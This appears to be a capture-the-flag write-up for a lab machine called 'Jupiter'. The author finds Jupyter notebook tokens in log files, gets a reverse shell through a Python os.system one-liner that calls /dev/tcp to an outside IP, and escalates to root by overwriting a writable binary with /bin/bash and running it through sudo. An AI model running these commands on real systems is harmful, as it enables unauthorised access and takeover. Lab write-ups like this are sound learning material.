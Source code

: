 ~~~
juno@jupiter:/opt$ ls
solar-flares
juno@jupiter:/opt$ cd solar-flares/
juno@jupiter:/opt/solar-flares$ ls
cflares.csv  flares.html   logs     mflares.csv  xflares.csv
flares.csv   flares.ipynb  map.jpg  start.sh
~~~

There i check my logs , there i found many tokens,
![[logs.png]]

~~~
cat *.logs | grep token
~~~

Found many tokens and tried one by one.

Finally this one works for me,

~~~
http://localhost:8888/?token=c339b49ba29e06f20bc485ed7c389f6adef8db42c1248f89
~~~

![[entry login.png]]

I see new 

![[Pasted image 20230613204219.png]]

![[Pasted image 20230613204249.png]]

![[Pasted image 20230613204303.png]]

It gave me a shell  ,

~~~
import os; os.system('bash -c "bash -i >& /dev/tcp/10.10.14.158/5555 0>&1"')
~~~

![[jovian.png]]

I wasn't sure what this binary did, but we have write access over it for some reason:

~~~
jovian@jupiter:/opt/solar-flares$ ls -la /usr/local/bin/sattrack
ls -la /usr/local/bin/sattrack
-rwxrwxr-x 1 jovian jovian 1113632 Mar  8 12:07 /usr/local/bin/sattrack
~~~

We can just overwrite this with `/bin/bash`, and then run it using `sudo` to get an easy root shell.

![[Pasted image 20230613204912.png]]

yep...!!!  Completed the Box.....!!!